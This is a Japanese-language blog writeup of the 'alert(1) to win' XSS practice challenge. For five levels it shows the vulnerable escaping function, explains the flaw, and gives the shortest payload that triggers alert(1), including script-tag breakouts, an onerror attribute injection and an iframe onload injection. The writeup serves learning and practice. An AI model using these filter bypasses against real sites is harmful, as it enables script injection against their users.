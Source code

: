 ```yaml
---
title: alert(1) to win Writeup
date: 2019-01-30
tags: ["XSS", "Challenge", "Security"]
excerpt: alert(1) to win Writeup
---
```

# Alert(1) to win
URL：https://alf.nu/alert(1)  
XSS Challengeができるサイトです。  
スコアの高さは文字数と反比例なので、コードゴルフみたいな一面もあります。


# 問題一覧
- [x] [Warmup](#Warmup)
- [x] [Adobe](#Adobe)
- [x] [JSON](#JSON)
- [x] [Markdown](#Markdown)
- [x] [DOM](#DOM) [](#)
- [x] [Callback](#Callback)
- [x] [Skandia](#Skandia)
- [x] [Template](#Template)
- [x] [JSON2](#JSON2)
- [x] [Skandia2](#Skandia2)
- [ ] [iframe](#iframe)
- [ ] [TI(S)M](#TISM)
- [ ] [JSON3](#JSON3)
- [x] [Skandia3](#Skandia3)
- [ ] [RFC4627](#RFC4627)
- [ ] [Well](#Well)
- [x] [No](#No)
- [ ] [K'Z'K](#K'Z'K)
- [ ] [K'Z'K-2](#K'Z'K-2)
- [ ] [K'Z'K-3](#K'Z'K-3)
- [ ] [Fruit](#Fruit)
- [ ] [Fruit2](#Fruit2)
- [ ] [Fruit3](#Fruit3)
- [ ] [Capitals](#Capitals)
- [ ] [Quine](#Quine)
- [ ] [Entities](#Entities)

## Warmup
```Javascript
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```
何のエスケープもない普通の問題です。12文字。
```
");alert(1,"
```

## Adobe
```Javascript
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```
`"`が`\"`にエスケープされます。  
`\"`と入力すると`\\"`となり、文字列として`console.log`を閉じることができます。  
末尾をコメントアウトして、14文字。
```
\");alert(1)//
```
## JSON
```Javascript
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```
`JSON.stringify`を用いたエスケープです。  
一度タグを閉じてから末尾をコメントアウトすると最短。27文字。
```
</script><script>alert(1)//
```

## Markdown
```Javascript
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```
サンプルで用意されている`[[img123|Description]]`をいれると、６行目の置換により
```html
<img alt="Description" src="img123.gif">
```
となります。  
５行目では`http://S+`の形の文字列を`<a>`タグに変換しているため、後半を任意のURLに書き換えることで、以下のように`<img>`タグを閉じることができます。  
例：`Input：[[img123|http://xxx]]`
```html
<img alt="<a href="http://xxx" src="img123.gif">">http://xxx]]</a>
```
開発者ツールでこの部分を検証してみると以下のようになっており、`<img>`タグに`http:`属性と`xxx`属性が付与されたことがわかります。  
![markdown.png](https://github.com/mrypq/boilerplate/blob/master/img/markdown.png)  
htmlにおける`//`が区切り文字となっているためこのようなことが起こります。  
今回は存在しないgifの読み込みエラーが発生するため、`onerror`属性にスクリプトを仕込んだところ発火しました。  
末尾をコメントアウトで排除し、文字数削って31文字。
```
[[x|http://onerror=alert(1)//]]
```

## DOM
```Javascript
function escape(s) {
 // Slightly too lazy to make two input fields.
 // Pass in something like "TextNode#foo"
 var m = s.split(/#/);

 // Only slightly contrived at this point.
 var a = document.createElement('div');
 a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
 return a.innerHTML;
}
```
文字列Sを`#`で区切り、前半を`m[0]`後半を`m[1]`に代入しています。  
DOMの`document.create`から始まるメソッドを調べたところ、`document.createComment()`というメソッドがそれっぽかった。  
>**Document.createComment()**   
新しいコメントノードを生成して、返します。

参照：https://developer.mozilla.org/ja/docs/Web/API/Document  
`Comment#hoge`を入力すると`<!--hoge-->`が出力されるので、文頭のコメントアウトを閉じ、中身を発火させるhtmlに書き換えれば終了。iframeつかって32文字。
```
Comment#><iframe onload=alert(1)
```
Firefoxなどでは`svg/onload`が使えるのでさらに短くなるはずだけど、うまくいきませんでした。何故…。

## 以下随時更新予定
